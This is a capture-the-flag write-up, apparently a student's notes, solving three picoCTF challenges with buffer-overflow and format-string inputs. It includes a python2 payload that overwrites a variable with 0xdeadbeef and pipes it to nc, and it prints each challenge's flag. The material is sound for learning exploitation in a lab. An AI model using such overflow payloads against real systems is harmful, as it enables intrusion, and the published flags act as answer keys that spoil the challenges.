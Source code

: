 # buffer overflow 0
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.


## Solution:

- connecting nc and running the program doesnt give much information
```
aditya@Dell-Inspiron:~$ nc saturn.picoctf.net 55374
Input: 111
The program will exit now
```
- taking a look at the source code reveals that
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
- buf2 size is only 16 bytes
- The program uses strcpy to copy input user to buf2
- So, if we input more than 16 bytes then it will overwrite into other parts of the memory
- This causes the program to crash, triggering the sigsegv_handler and printing the flag.

```
aditya@Dell-Inspiron:~$ nc saturn.picoctf.net 58075
Input: 111111111111111111111111111111111111111111111111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:
- how overwriting a buffer corrupts nearby memory 
- When a program runs out of memory, it leads to a SIGSEGV error

## Notes:

- I forgot what strcpy did and looked it up... and I also found my hint there (risc of overflow) :) 


## Resources:

- (https://www.geeksforgeeks.org/c/strcpy-in-c/)
- (https://phoenixnap.com/kb/sigsegv)


***



# format string 0
> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 54366

## Solution:

I found two approaches for this problem

1) I dont know what I am doing approach

- Reading lines 51-78 from `format-string-0.c` it is obvious that "Gr%114d_Cheese" will execute serve_bob()
- connecting nc and input "Gr%114d_Cheese" will give next part and three options out of which "Cla%sic_Che%s%steak" happens to print the flag
```
aditya@Dell-Inspiron:~$ nc mimas.picoctf.net 60756
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

2) I know what a buffer overflow is
- the BUFSIZE is defined as 32 bytes and `scanf("%s", choice1);` will let me input more than the buffer size
- again, if I put a very large value in the input then this causes the program to crash, triggering the sigsegv_handler and printing the flag.

```
aditya@Dell-Inspiron:~$ nc mimas.picoctf.net 54366
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```




## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Concepts learnt:
- how overwriting a buffer corrupts nearby memory 
- When a program runs out of memory, it leads to a SIGSEGV error


## Resources:

- (https://www.geeksforgeeks.org/c/strcpy-in-c/)
- (https://phoenixnap.com/kb/sigsegv)


***


# Clutter over-flow

## Solution

- taking a look at the `chall.c` file reveals that it uses `gets` which means I can exploit it with overflow
- the SIZE of clutter is defined as 0x100 = 256
- if the variables `code` and `GOAL` are equal it will print the flag in flag.txt


- Since I want to overflow the bufer I will need to put more than 256 + 8 random characters in the input. (+8 for the padding created by compiler)
- I'll use python for that
```
>>> print((256+8+1)*"a")
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

- I get a non zero hex for the code but its still not giving me the flag
```
My room is so cluttered...
What do you see?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
code == 0x61
code != 0xdeadbeef :(
```

- this means I will probably need exactly the number of bytes that 0xdeadbeef stores and add 256+8 to that
- I can get it using python
```
>>> import struct
>>> struct.pack("<L", 0xdeadbeef)
b'\xef\xbe\xad\xde'
```

- hence those 254 'a's and the bytes will overflow into the flag
- adding them using python2 since python3 wont allow it
```
aditya@Dell-Inspiron:~$ touch new.py
aditya@Dell-Inspiron:~$ nano new.py
```
```
print((256+8)*"a" + b'\xef\xbe\xad\xde')
```

- now pipe the output to nc
```
 python2 new.py | nc mars.picoctf.net 31890
```
```
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learned:
- learnt how to convert from hex to binary bytes
- python3 cant add binary and str but python2 can



